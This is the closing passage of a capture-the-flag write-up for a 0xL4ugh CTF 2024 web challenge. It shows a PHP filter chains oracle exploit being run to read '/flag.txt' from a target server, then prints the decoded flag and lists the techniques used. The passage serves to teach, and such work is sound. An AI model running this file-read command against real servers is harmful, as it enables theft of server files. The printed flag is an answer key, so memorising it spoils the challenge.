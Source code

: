 **Finally, we can fire up the tool and leak the flag contents!**
```shell
┌[siunam♥Mercury]-(/opt/php_filter_chains_oracle_exploit)-[2024.02.12|14:27:38(HKT)]-[git://main ✗]
└> python3 filters_chain_oracle_exploit.py --target http://20.55.48.101/user_photo.php --file '/flag.txt' --parameter img
[*] The following URL is targeted : http://20.55.48.101/user_photo.php
[*] The following local file is leaked : /flag.txt
[*] Running POST requests
b'MHhMNHVnaHtBaGhoaGhfSG9wM19VX0RpZF8hdF9ieV9UaDNfSW50ZW5kZWRfV0BAeX0K'
b'0xL4ugh{Ahhhhh_Hop3_U_Did_!t_by_Th3_Intended_W@@y}\n'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/leak_flag.gif)

> Yes, this is a GIF image, it's slowly leaking it XD

- **Flag: `0xL4ugh{Ahhhhh_Hop3_U_Did_!t_by_Th3_Intended_W@@y}`**

## Conclusion

What we've learned:

1. Mass Assignment vulnerability
2. Rate limiting bypass
3. Blind file oracle with PHP filter chains